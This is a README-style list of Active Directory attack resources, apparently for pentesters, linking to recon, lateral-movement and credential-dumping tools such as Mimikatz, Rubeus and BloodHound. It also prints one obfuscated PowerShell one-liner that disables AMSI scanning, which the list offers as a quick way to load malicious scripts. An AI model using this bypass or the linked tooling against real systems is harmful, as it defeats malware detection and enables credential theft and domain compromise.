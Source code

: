 # AD-Security-Resources


<H2>Huge list of AD security resources available below :</H2>
  https://adsecurity.org/
  https://www.harmj0y.net/
  https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html
  https://beta.hackndo.com/


<H2> Setting up active directory lab : <H2>
  https://github.com/outflanknl/Invoke-ADLabDeployer



<H2> Bypassing Powershell execution policy issues : </H2>
-> Github links - AMSI Bypass for loading malicious scripts: 
  https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell
-> Something that works quickly
  sETItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL)."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )

<H2> Recon of active directory objects :
-> PowerView / Powersploit :
  https://github.com/PowerShellMafia/PowerSploit

-> AD Module :
  https://github.com/samratashok/ADModule

-> Bloodhound
  https://github.com/BloodHoundAD/SharpHound
  https://github.com/BloodHoundAD/BloodHound


==> Lateral Movement Automation :
  https://github.com/GoFetchAD/GoFetch

<H2> Credential Dumping for all attacks (PTH, Kerberoasting, Golden Ticket Attack, Silver Ticket Attack, Skeleton Key Attack:
-> Mimikatz :
  https://github.com/gentilkiwi/mimikatz

-> Spraykatz - Credentials gathering tool automating remote procdump and parse of lsass process
  https://github.com/aas-n/spraykatz

-> Mimikittenz - Reading credentians from process :
  https://github.com/putterpanda/mimikittenz

-> Benjamin Delpy's Kekeo 
  https://github.com/gentilkiwi/kekeo/

-> Vincent LE TOUX's MakeMeEnterpriseAdmin
  https://github.com/vletoux/MakeMeEnterpriseAdmin

-> Rubeus :
  https://github.com/GhostPack/Rubeus

<H2> Pingcastle - AD Security :
  https://github.com/vletoux/pingcastle



